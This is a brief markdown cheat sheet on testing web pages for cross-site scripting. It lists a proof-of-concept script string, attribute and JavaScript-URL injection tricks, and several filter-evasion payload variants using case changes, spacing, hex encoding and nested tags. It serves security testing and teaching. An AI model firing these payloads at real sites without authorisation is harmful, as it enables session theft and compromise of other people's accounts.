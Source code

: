 ```yaml
---
layout: page
title:  "Cross Site Scripting (XSS)"
permalink: "xss.html"
tags: [security, web]
summary: ""
---
```

## Introduction
* Standard poc atttack string: `"><script>alert(document.cookie)</script>"`


## Strategy
* Test every entrypoint and find where these inputs (chosen so that they shouldn't be filtered) are displayed back to the user
* Sanitized/decoded/modified input can still be enough for exploitation

## Tactics
* Check the page source code, not only the page rendered by the browser
* URL encode payload ?
* Remain within a tag using `onload` attribute: `" onload=alert()`
* If input returned inside a JS quoted string, ensure injected payload valid. Can comment the remainder using `//`
* Attribute containing an url: `javascript:alert()`
* Invalid image name: `#" onclick="javascript:alert()`

## Filters evading
### script filters
* Add space: `"><script >alert(document.cookie)</script >"`
* Change case: `"><ScRiPt>alert(document.cookie)</ScRiPt>"`
* Hex encoding: `"%3e%3cscript%3ealert(document.cookie)%3c/script%3e"`
* Double `script` keyword: `"><scr<script>ipt>alert(document.cookie)</scr</script>ipt>"`


## Resources and references
* [Example of finding an XSS bug](https://medium.com/@marin_m/how-i-found-a-5-000-google-maps-xss-by-fiddling-with-protobuf-963ee0d9caff)
* [Toole for easy XSS](https://github.com/chinarulezzz/pixload/blob/master/README.md)
* [A reflected XSS on Facebook](https://medium.com/@win3zz/simple-story-of-some-complicated-xss-on-facebook-8a9c0d80969d)